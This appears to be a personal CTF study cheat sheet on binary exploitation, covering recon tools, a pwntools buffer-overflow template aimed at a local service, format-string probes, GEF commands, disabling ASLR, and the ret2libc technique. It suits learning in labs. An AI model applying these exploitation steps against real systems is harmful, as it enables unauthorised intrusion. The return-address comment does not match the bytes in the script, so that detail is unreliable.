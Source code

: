 # CTF Binary Exploitation Steps    

        file binary     #note architechure of the binary, are debugging symbols stripped?     
        strings binary   #note strings, function calls   
If a binary is not stripped of debugging symbols:    

        readelf -s program     
Open the binary in Ghidra, decompile it and look at the source code.   
ltrace: record library calls made in an executable to see what context they are used in.      

        ltrace ./program      
Basic pwntools exploit script in Python3:     
```
#!/usr/bin/env python3
from pwn import *
context.log_level = 'ERROR'
conn = remote("127.0.0.1", 1337)
offset = 100
#return address: x980592e3
shellcode = b''
payload = b'A'*offset + b'\xe3\x92\x05\x08' + shellcode 
conn.sendlineafter(":", payload)
conn.interactive()

```
## Format String Vulnerabilities     
Is user input passed to printf, scanf or similiar functions in a way you can control?    

        printf(variable);   //c code vulnerability   
        %x%x   #test as user input   
        %p %p    #print out pointer values - test to see if you can disclose vital info (like a flag)  
But what if the string contains a format parameter?? The format function should eval and try to access the function arg by adding to the frame pointer - if arg isn't there adding to the frame pointer will reference a piece of memory in a preceding stack frame.       
Further notes: https://infosecwriteups.com/exploiting-format-string-vulnerability-97e3d588da1b             
        
## GEF    
[GEF Documentation](https://hugsy.github.io/gef/)    
Extend the features of GDB.    
Check security protections on a binary:     

    checksec filename  
    checksec     #if gdb is already attached to a process    

    pattern create 200    #create a pattern   
    pattern offset waab   #get the offset 

## Memory Protections   
NX: no execute.     
DEP: Data Execution Prevention, the CPU will not execute code in the heap or stack.       
ASLR:      
Canary:   

Switch off ASLR:      

                echo 0 > /proc/sys/kernel/randomize_va_space    
## Return Oriented Programming    
Avoid DEP    
https://bordplate.no/blog/en/post/what-is-rop/    
https://bordplate.no/blog/en/post/interactive-rop-tutorial/    

## ret2libc (Return to libc)     
Exploit buffer overflows on systems where stack memory is protected with NX. For *nix systems.        
An attacker can't execute shellcode from the stack. ret2libc: bypass NX and use existing code from the standard C library shared object (/lib/i386-linux-gnu/libc-\*.so) that is loaded and mapped into the program's virtual address space. This is similiar to a standard stack buffer overflow, except the return address will point to the function system(const char *command) from the libc library. The program will be forced to jump to system() and execute injected shellcode as the command.                
payload = overflow + &system() + &exit() + &commmand       

        (gdb) p system  #find the memory address of system() from libc in the program's virtual memory    
        (gdb) p exit    #find the memory address of exit() 

